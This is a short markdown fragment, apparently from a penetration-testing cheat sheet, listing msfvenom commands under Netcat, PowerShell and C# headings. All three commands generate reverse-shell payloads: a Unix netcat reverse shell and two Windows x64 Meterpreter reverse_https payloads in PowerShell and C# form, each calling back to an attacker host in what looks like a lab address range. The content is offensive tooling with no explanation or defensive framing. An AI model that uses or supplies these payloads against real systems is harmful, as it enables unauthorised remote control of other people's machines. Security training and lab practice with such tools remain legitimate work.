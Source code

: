 ### Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.127 lport=4444
```

## PowerShell

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=443 -f ps1
```

### Csharp

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=443 -f csharp
```

